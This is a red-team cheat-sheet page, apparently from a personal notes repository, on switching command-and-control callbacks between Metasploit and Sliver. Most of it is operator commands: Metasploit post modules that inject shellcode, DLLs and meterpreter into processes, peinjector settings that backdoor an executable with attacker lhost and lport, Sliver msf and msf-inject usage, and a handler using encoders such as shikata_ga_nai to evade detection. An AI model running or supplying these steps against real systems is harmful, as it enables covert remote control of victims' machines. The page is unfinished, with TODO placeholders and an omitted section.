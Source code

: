# Switching Callbacks

Search Tag(s): #metasploit-framework

## 01 - Metasploit

TODO: Go through every MSF module

use post/windows/manage/exec_powershell

post/windows/manage/multi_meterpreter_inject

```
msf > use exploit/windows/local/payload_inject

options
```

run post/windows/manage/shellcode_inject

post/windows/manage/reflective_dll_inject

### Peinjector

```
meterpreter > load peinjector

Peinjector Commands
===================

    Command       Description
    -------       -----------
    injectpe      Inject a shellcode into a given executable
..[omitted]..
```

TODO: Fill this info

```
meterpreter > injectpe
```

```
msf post(windows/manage/peinjector) > set targetpe C:\\path\\to\\to\\program.exe

msf post(windows/manage/peinjector) > set session <session_ID>

msf post(windows/manage/peinjector) > set lhost <attacker_IP>

msf post(windows/manage/peinjector) > set lport <attacker_PORT>

msf post(windows/manage/peinjector) > run
```

## 02 - Sliver

### 2.1 - Help Menu

```
sliver (IMPLANT_NAME) > msf -h

Command: msf [--lhost] <options>
About: Execute a metasploit payload in the current process.

Usage:
======
  msf [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -t, --timeout    int       command timeout in seconds (default: 60)

sliver (IMPLANT_NAME) > msf-inject -h

Command: inject [--pid] [--lhost] <options>
About: Execute a metasploit payload in a remote process.

Usage:
======
  msf-inject [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -p, --pid        int       pid to inject into (default: -1)
  -t, --timeout    int       command timeout in seconds (default: 60)
```

### 2.2 - Usage

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload <payload>

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder <x86/shikata_ga_nai | x64/xor_dynamic>

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run
```

- Inject meterpreter session directly in the same beacon process

```
sliver (IMPLANT_NAME) > msf [-e <x86/shikata_ga_nai | x64/xor_dynamic>] -i <iterations> -L <IP> -l <PORT> -m <payload>
```

- Inject meterpreter session through another process

```
sliver (IMPLANT_NAME) > msf-inject -p <pid> -e [x86/shikata_ga_nai | x64/xor_dynamic] -i <iterations> -L <IP> -l <PORT> -m <payload>
```

---
## References

- [Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

- [Hacker Cool: Shellcode Injection with Metasploit](https://www.hackercoolmagazine.com/metasploit-shellcode-injection-module/)

- [Hacking Articles: Metasploit for Pentester - Inject Payload into Executable](https://www.hackingarticles.in/metasploit-for-pentester-inject-payload-into-executable/)

- [Rapid7: Metasploit Framework - Build .NET Code](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/powershell/build_net_code.md)

- [CrowdStrike: Getting the bacon from Cobalt Strike Beacon](https://www.crowdstrike.com/blog/getting-the-bacon-from-cobalt-strike-beacon/)

- [Infosecmatter: RCE on Windows From Linux Part 1 Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

- [CertCube Pass the Hash in Windows 10](https://blog.certcube.com/pass-the-hash-in-windows-10/)